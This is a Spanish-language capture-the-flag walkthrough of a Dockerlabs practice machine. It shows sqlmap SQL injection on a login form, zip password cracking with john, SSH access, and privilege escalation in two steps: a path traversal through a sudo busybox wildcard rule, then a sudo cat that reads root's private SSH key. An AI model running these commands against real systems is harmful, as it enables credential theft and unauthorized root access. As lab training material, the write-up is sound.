 Maquina nivel medio de [Dockerlabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dockerlabs](./imagenes/dockerlabs.png)

# INTRUSION

Comenzamos entrando por el navegador a la ip `172.17.0.2`

#### PUERTO 80:

![80](./imagenes/80.png)

Al parecer es una web para practicar hacking, de todo lo que dice, lo interesante es "Desafíos de SQL Injection", ya que hay un panel de login.

Para la inyeccion sql podemos usar sqlmap guardandonos la peticion al iniciar sesion. Para hacerlo capturamos y guardando la peticion con burpsuite, para guardarla damos click derecho en la peticion y tocamos donde dice `Copy to file` y lo guardamos con el nombre que queramos.

Luego ejecutamos el siguiente comando:

```css
sqlmap -r request --dump -batch --level 5 -risk 3
```

Sqlmap nos encuentra varios usuarios y contraseñas, pero lo unico que nos interesa es la password `no_mirar_en_este_directorio`, por lo que entramos del navegador y vemos un zip el cual nos descargamos.

Al intentar descomprimirlo nos pide una contraseña, entonces tendremos que sacar el hash con `zip2john` y luego intentar crackear la contraseña usando `john`. Luego de capturar el hash ejecutaremos el siguiente comando para crackear la contraseña:

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE (2024-08-18 20:10) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si teniendo la contraseña vamos a descomprimir el zip y nos deja un archivo que se llama `confidencial.txt`, lo leemos y vemos lo siguiente:

```css

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:-------------

```

Asi que teniendo el usuario y contraseña nos conectamos mediante ssh.

# ESCALADA DE PRIVILEGIOS

## RALF

Siendo el usuario ralf vemos que podemos ejecutar con `sudo -l` y vemos lo siguiente:

```ruby
ralf@b09cee7bd1c1:~$ sudo -l
Matching Defaults entries for ralf on b09cee7bd1c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on b09cee7bd1c1:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
ralf@b09cee7bd1c1:~$ 

```

Para poder escalar privilegios me fijé en [GTFOBins](https://gtfobins.github.io/) pero nuestro caso es distinto, entonces tendremos que hacer lo siguiente:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/ls /home/capa
```

esto nos muestra que hay un archivo llamado `passwd.txt` por lo que ahora lo leeremos ejecutando:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/cat /home/capa/passwd.txt
```

Habiendo hecho esto ya tendremos la contraseña del usuario capa.

## CAPA

Siendo capa ejecutamos `sudo -l` y vemos que podemos ejecutar como root el binario cat. Entonces luego de fijarme nuevamente en [GTFOBins](https://gtfobins.github.io/), veo que puedo leer archivos del sistema, entonces haremos lo siguiente:

```css
LFILE=/root/.ssh/id_rsa
```

y lo leemos con:

```css
sudo cat "$LFILE"
```

Esto nos dará la clave privada del ssh del usuario root, ahora nos la guardaremos en nuestra maquina local como `id_rsa` y le damos permisos con `chmod 600`, luego ponemos `ssh -i id_rsa root@172.17.0.2` y listo, somos root.

![root](./imagenes/root.png)

Esta maquina tiene flags. Chau....







[INSTAGRAM](https://instagram.com/macim0_)